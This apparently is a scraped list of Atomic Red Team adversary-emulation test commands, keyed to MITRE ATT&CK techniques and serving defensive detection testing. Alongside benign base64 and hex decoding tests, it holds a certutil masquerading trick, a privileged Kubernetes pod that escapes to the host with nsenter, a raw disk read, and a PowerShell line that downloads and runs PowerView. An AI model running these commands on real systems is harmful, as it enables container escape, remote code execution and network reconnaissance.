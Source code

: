 echo $ENCODED > /tmp/T1140.encoded && python3 -c "import base64;dec=base64.b64decode(open('/tmp/T1140.encoded').read());print(dec.decode())"
* ENCODED=$(perl -e "use MIME::Base64;print(encode_base64('Hello from Atomic Red Team test T1140!'));")
perl -le "use MIME::Base64;print(decode_base64('$ENCODED'));"
echo $ENCODED | perl -le 'use MIME::Base64;print(decode_base64(<STDIN>));'
echo $ENCODED > #{encoded_file} && perl -le 'use MIME::Base64;open($f,"<","#{encoded_file}");print(decode_base64(<$f>));'
* ENCODED=$(perl -e "use MIME::Base64;print(encode_base64('#{message}'));")
perl -le "use MIME::Base64;print(decode_base64('$ENCODED'));"
echo $ENCODED | perl -le 'use MIME::Base64;print(decode_base64(<STDIN>));'
echo $ENCODED > /tmp/T1140.encoded && perl -le 'use MIME::Base64;open($f,"<","/tmp/T1140.encoded");print(decode_base64(<$f>));'
* ENCODED=$(echo 'Hello from Atomic Red Team test T1140!' | xxd -ps -c 256)
printf $ENCODED | xxd -r -p
echo $ENCODED | xxd -r -p
echo $(echo $ENCODED) | xxd -r -p
echo $ENCODED > #{encoded_file} && xxd -r -p #{encoded_file}
echo $ENCODED > #{encoded_file} && xxd -r -p < #{encoded_file}
echo $ENCODED > #{encoded_file} && cat #{encoded_file} | xxd -r -p
echo $ENCODED > #{encoded_file} && cat < #{encoded_file} | xxd -r -p
* copy %windir%\system32\certutil.exe %temp%\tcm.tmp
%temp%\tcm.tmp -encode C:\Windows\System32\calc.exe %temp%\T1140_calc2.txt
%temp%\tcm.tmp -decode %temp%\T1140_calc2.txt %temp%\T1140_calc2_decoded.exe
* ENCODED=$(echo '#{message}' | base64)
printf $ENCODED | base64 -d
echo $ENCODED | base64 -d
echo $(echo $ENCODED) | base64 -d
echo $ENCODED > /tmp/T1140.encoded && base64 -d /tmp/T1140.encoded
echo $ENCODED > /tmp/T1140.encoded && base64 -d < /tmp/T1140.encoded
echo $ENCODED > /tmp/T1140.encoded && cat /tmp/T1140.encoded | base64 -d
echo $ENCODED > /tmp/T1140.encoded && cat < /tmp/T1140.encoded | base64 -d
bash -c "{echo,\"$(echo $ENCODED)\"}|{base64,-d}"
* ENCODED=$(echo 'Hello from Atomic Red Team test T1140!' | base64)
printf $ENCODED | base64 -d
echo $ENCODED | base64 -d
echo $(echo $ENCODED) | base64 -d
echo $ENCODED > #{encoded_file} && base64 -d #{encoded_file}
echo $ENCODED > #{encoded_file} && base64 -d < #{encoded_file}
echo $ENCODED > #{encoded_file} && cat #{encoded_file} | base64 -d
echo $ENCODED > #{encoded_file} && cat < #{encoded_file} | base64 -d
bash -c "{echo,\"$(echo $ENCODED)\"}|{base64,-d}"
* certutil.exe -decode
* certutil.exe-decode|-urlcache
* certutil.exe|-decode|-urlcache
##T1610: Deploy Container
* kubectl --context kind-atomic-cluster run atomic-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
##T1587: Develop Capabilities
##T1006: Direct Volume Access
* $buffer = New-Object byte[] 11
$handle = New-Object IO.FileStream "\\.\C:", 'Open', 'Read', 'ReadWrite'
$handle.Read($buffer, 0, $buffer.Length)
$handle.Close()
Format-Hex -InputObject $buffer
##T1561: Disk Wipe
##T1484: Domain Policy Modification
##T1482: Domain Trust Discovery
* dsquery * -filter "(objectClass=trustedDomain)" -attr *
* [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose
